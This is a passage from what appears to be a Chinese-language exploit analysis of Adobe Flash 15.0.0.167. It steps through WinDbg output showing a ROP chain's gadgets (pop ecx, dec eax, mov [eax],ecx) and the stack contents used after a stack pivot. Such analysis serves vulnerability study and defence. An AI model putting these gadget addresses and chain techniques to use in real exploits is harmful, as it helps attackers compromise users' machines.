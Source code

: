 上面一系列返回指令执行之后，我们可以看到

```
1:021> u eip
Flash32_15_0_0_167+0x1192:
5e861192 59  pop ecx
5e861193 c3  ret

```

![enter image description here](http://drops.javaweb.org/uploads/images/4a1a40111c43a8a8157b9cdb73695702f7f330ae.jpg)

这个ROP gadget将ecx的值设置为0x5e8805bb

```
1:021> dd esp
070ab070 5e8805bb 5e8c1478 5e8c1478 5e8c1478
070ab080 5e8c1478 5e861192 5e8e2e45 5e89a4ca

```

接下来的ROP gadget出现了四次。

```
1:021> u eip
Flash32_15_0_0_167+0x61478:
5e8c1478 48     dec eax
5e8c1479 c3     ret

```

![enter image description here](http://drops.javaweb.org/uploads/images/8eb8ea18e463466a55bde34358ade2e1978b99d3.jpg)

正如我们之前提到的，在stack pivot执行前的原始esp的值已经被存储在了eax中。因此，eax减小四次，就是在原始栈上开辟出一个四字节。

```
1:021> u eip
Flash32_15_0_0_167+0x1192:
5e861192 59     pop ecx
5e861193 c3 ret

```

在当前栈上包含下面的数据:

```
1:021> dd esp
070ab088 5e8e2e45 5e89a4ca 41414141 5e8c1478
070ab098 5e8c1478 5e8c1478 5e8c1478 5e861192

```

通过上面的ROP gadget，ecx的值被设置为0x5e8e2e45，然后

```
1:021> u eip
Flash32_15_0_0_167+0x3a4ca:
5e89a4ca 8908   mov  dword ptr [eax],ecx
5e89a4cc 5d         pop ebp
5e89a4cd c3         ret

```
